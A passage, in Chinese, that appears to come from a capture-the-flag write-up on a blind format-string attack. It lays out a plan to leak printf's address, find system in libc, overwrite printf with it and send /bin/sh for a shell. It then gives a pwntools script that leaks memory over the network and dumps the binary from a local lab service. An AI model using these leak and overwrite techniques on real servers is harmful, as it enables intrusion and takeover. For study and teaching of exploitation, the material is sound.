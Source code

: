 可以基本确定的是sub_4004C0为read函数，因为读入函数一共有三个参数的话，基本就是read了。此外，下面调用的sub\_4004B0应该就是输出函数了，再之后应该又调用了一个函数，此后又重新跳到读入函数处，那程序应该是一个while 1的循环，一直在执行。

#### 利用思路

分析完上面的之后，我们可以确定如下基本思路

- 泄露printf函数的地址，
- 获取对应libc以及system函数地址
- 修改printf地址为system函数地址
- 读入/bin/sh;以便于获取shell

#### 利用程序

程序如下。

```python
##coding=utf8
import math
from pwn import *
from LibcSearcher import LibcSearcher
##context.log_level = 'debug'
context.arch = 'amd64'
ip = "127.0.0.1"
port = 9999


def leak(addr):
    # leak addr for three times
    num = 0
    while num < 3:
        try:
            print 'leak addr: ' + hex(addr)
            sh = remote(ip, port)
            payload = '%00008$s' + 'STARTEND' + p64(addr)
            # 说明有\n，出现新的一行
            if '\x0a' in payload:
                return None
            sh.sendline(payload)
            data = sh.recvuntil('STARTEND', drop=True)
            sh.close()
            return data
        except Exception:
            num += 1
            continue
    return None


def getbinary():
    addr = 0x400000
    f = open('binary', 'w')
    while addr < 0x401000:
        data = leak(addr)
        if data is None:
            f.write('\xff')
            addr += 1
        elif len(data) == 0:
            f.write('\x00')
            addr += 1
        else:
            f.write(data)
            addr += len(data)
    f.close()


##getbinary()
```